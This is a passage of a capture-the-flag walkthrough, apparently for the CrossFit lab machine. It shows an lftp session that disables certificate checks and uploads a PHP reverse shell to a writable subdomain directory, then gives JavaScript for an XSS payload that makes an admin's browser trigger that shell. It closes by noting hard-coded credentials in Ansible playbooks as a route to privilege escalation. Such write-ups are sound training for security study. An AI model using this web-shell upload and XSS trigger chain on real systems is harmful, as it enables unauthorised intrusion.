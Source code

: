 ### LFTP
- NORMALLY FTP is used to login but in this case ftp seems to have a ssl certificate.
- Because of which we need to use lftp to make a conection.
```bash
lftp
lftp :~> set ftp:ssl-force true
lftp :~> set ssl:verify-certificate no
lftp :~> connect 10.129.121.115
lftp 10.129.121.115:~> login hello
Password: 
```
- The ftp was a dump of all the contents of `/var/www` 
- Incase of `development-test` sub-domain one could `put` a file.ALL OTHER SUB-DOMAINS DID NOT ALLOW IT.
- So we put a simple php reverse shell and then try to call it with the same xss vuln.
```bash
lftp hello@10.129.121.115:~> ls
drwxrwxr-x    2 33       1002         4096 Mar 29 15:15 development-test
drwxr-xr-x   13 0        0            4096 May 07  2020 ftp
drwxr-xr-x    9 0        0            4096 May 12  2020 gym-club
drwxr-xr-x    2 0        0            4096 May 01  2020 html
lftp hello@10.129.121.115:/> cd development-test
lftp hello@10.129.121.115:/development-test> ls
lftp hello@10.129.121.115:/development-test> put bhosa.php
3461 bytes transferred in 2 seconds (1.5 KiB/s)                
lftp hello@10.129.121.115:/development-test> 
```
#### INVOKING THE REVERSE SHELL(using xss)
```javascript
var target = 'http://development-test.crossfit.htb/bhosa.php';
var attack = new XMLHttpRequest();
attack.open('GET',target,false);
attack.send();
resp = attack.responseText;
```
- This will invoke the script from the admin browser and then give us a connection.

![[Pasted image 20210331055846.png]]

![[Pasted image 20210331055819.png]]
In this manner we get ***www-data*** user.

# EXPLOITATION

### HANK USER PRIVESC
A total enumeration of the box will lead to a ton of hard coded credentials.
- One such credential was found in `/etc/ansible/playbooks`.

![[Pasted image 20210331105118.png]]
